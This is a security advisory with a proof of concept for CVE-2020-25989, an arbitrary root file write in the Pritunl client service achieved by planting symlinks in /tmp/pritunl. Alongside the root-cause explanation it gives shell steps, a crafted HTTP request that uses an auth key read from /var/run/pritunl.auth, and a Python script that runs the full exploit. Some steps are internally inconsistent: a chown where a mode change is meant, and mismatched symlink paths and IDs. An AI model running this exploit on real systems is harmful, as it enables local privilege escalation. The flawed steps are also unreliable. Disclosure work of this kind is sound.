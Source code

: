 # Arbitrary File Write in Pritunl (CVE 2020-25989)

## Vulnerability

Arbitrary file write as root in pritunl versions between 1.0.1116.6 and v1.2.2550.20. The pritunl-service writes to the following paths as root without checking if the file exists.

<ol>
<li>/tmp/pritunl/{profile_id}</li>
<li>/tmp/pritunl/{profile_id}-down.sh</li>
<li>/tmp/pritunl/{profile_id}-up.sh</li>
<li>/tmp/pritunl/{profile_id}-block.sh</li>
<li>/tmp/pritunl/{profile_id}.auth</li>
</ol>

the /tmp/pritunl/{profile_id}.auth path allows for fully controlled contents to be written to an arbitrary file on the host by placing a symlink in place of the file and submitting a malicious Profile POST request to the service with a crafted username and password. 

The following steps outline how to setup the test data.
```bash
touch /tmp/root_test
sudo chown 0600 /tmp/root_test
```
The following steps outline how to exploit the vulnerability.
```bash
mkdir /tmp/pritunl
ln -s /tmp/root_test /tmp/123467.auth
```
An attacker can then get the auth token required to interact with the service by reading 
```bash
/var/run/pritunl.auth
```
The following example post request is then used to exploit the vulnerability.
```
POST /profile HTTP/1.1
Auth-Key: Tp0JSp3iugTipiq2U9CpJcHuGkQGM3VvspS6gu6rtUfLCmOOlzl0gFkEFGiX67Zc
User-Agent: pritunl
Host: unix
accept: application/json
content-type: application/json
content-length: 286
Connection: close

{"id":"1234567","mode":"ovpn","org_id":"org_id_test","user_id":"user_id_test","server_id":"server_id_test","sync_token":"sync_token_test","sync_secret":"sync_secret_test","username":"username_test","password":"password_test","token_ttl":12345678,"reconnect":false,"timeout":false}
```

The strings "username_test" and "password_test" will be written to the file at the symlink (in this example that file is /tmp/root_test).

The contents of /tmp/root_test will now be.
```
username_test
password_test
```
These issues stem from the following functions in /service/Profile/Profile.go

<ol>
<li>write()</li>
<li>writeDown()</li>
<li>writeUp()</li>
<li>writeBlock()</li>
<li>writeAuth()</li>
</ol>
These functions call ioutil.WriteFile directly on the path that is generated without first checking if these files exist, allowing an attacker to create a symlink at /tmp/pritunl/{file} allowing for arbitrary file write as root.

## PoC

Python PoC to interact with the pritunl-service and exploit the vulnerability 

```python
import socket
import os 

os.mkdir("/tmp/pritunl")
file_overwirte_path = "/tmp/root_test"
os.symlink(file_overwirte_path, "/tmp/pritunl/1234567.auth")

server_address = "/var/run/pritunl.sock"
auth = open("/var/run/pritunl.auth", "r").read()

payload = """POST /profile HTTP/1.1
Auth-Key: """ + auth + """
User-Agent: pritunl
Host: unix
accept: application/json
content-type: application/json
content-length: 286
Connection: close

{"id":"1234567","mode":"ovpn","org_id":"org_id_test","user_id":"user_id_test","server_id":"server_id_test","sync_token":"sync_token_test","sync_secret":"sync_secret_test","username":"root_file_write","password":"test","token_ttl":12345678,"reconnect":false,"timeout":false}
"""
sock = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
sock.connect(server_address)
sock.sendall(payload.encode('utf-8'))
```
